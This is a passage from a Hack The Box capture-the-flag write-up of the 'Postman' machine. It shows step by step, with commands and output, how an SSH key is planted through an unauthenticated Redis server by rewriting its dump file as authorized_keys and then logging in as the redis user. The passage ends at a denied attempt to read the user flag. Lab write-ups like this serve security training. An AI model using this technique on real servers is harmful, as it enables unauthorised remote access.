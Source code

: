 And now I can write pwn.txt to the server memory:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/postman]
└─$ cat foo.txt | redis-cli -h 10.10.10.160 -x set crackit 
OK
```

Now, I need to dump the memory content into the authorized_keys file (need to chose other dir):

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/postman]
└─$ redis-cli -h 10.10.10.160         
10.10.10.160:6379> config set dir /Users/antirez/.ssh/
(error) ERR Changing directory: No such file or directory
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> config set dbfilename authorized_keys
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379> quit
```

As you see, I needed to save the key to the default redis users home. (The user from the manual exploitation page does not exist on my system). So I can login with SSH as redis:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/postman]
└─$ ssh redis@10.10.10.160 -i id_rsa     
The authenticity of host '10.10.10.160 (10.10.10.160)' can't be established.
ECDSA key fingerprint is SHA256:kea9iwskZTAT66U8yNRQiTa6t35LX8p0jOpTfvgeCh0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.160' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Last login: Mon Aug 26 03:04:25 2019 from 10.10.10.1
redis@Postman:~$
```

This worked, I set the password to `password`, so it's easy to remember. But I have no permissions to read the user flag:

```bash
redis@Postman:~$ cd /home
redis@Postman:/home$ ls
Matt
redis@Postman:/home$ cd Matt
redis@Postman:/home/Matt$ ls
user.txt
redis@Postman:/home/Matt$ cat user.txt
cat: user.txt: Permission denied
```
